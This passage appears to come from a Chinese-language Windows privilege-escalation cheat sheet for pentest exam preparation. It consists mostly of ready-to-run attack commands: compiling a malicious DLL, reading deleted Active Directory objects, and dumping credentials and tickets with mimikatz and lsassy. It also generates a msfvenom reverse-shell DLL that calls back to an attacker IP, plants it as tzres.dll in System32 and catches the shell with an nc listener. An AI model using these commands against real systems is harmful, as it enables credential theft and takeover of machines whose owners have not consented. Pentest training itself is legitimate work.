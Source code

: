 ```c
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

编译 DLL
```bash
x86_64-w64-mingw32-gcc dll.cpp --shared -o myDLL.dll
```


### `AD Recycle Bin` Group
此组中的成员身份允许读取已删除的 Active Directory 对象，这可能会泄露敏感信息：
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```


### `SeDebugPrivilege` Group
[Windows 后利用](Windows%20后利用.md)
- mimikatz.exe
https://github.com/ParrotSec/mimikatz
```bash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  (需要高权限)
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets" exit
```
- **lsassy** 
https://github.com/login-securite/lsassy
```bash
lsassy -d MS01.oscp.exam -u administrator -p December31 192.168.244.153
```


### `SeMachineAccountPrivilege` Privilege Abuse
Download File: 
https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------
执行后即可写入 C 盘。
```powershell
C:\>echo 'Test!' > test.txt
07/01/2024  02:04 AM                10 test.txt
```

PrivEsc 方式：
https://github.com/xct/SeManageVolumeAbuse
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=1337 -f dll -o tzres.dll
copy C:\programdata\tzres.dll C:\Windows\System32\wbem\tzres.dll
rlwrap nc -lvvnp 1337 
systeminfo
```
就是管理员权限了
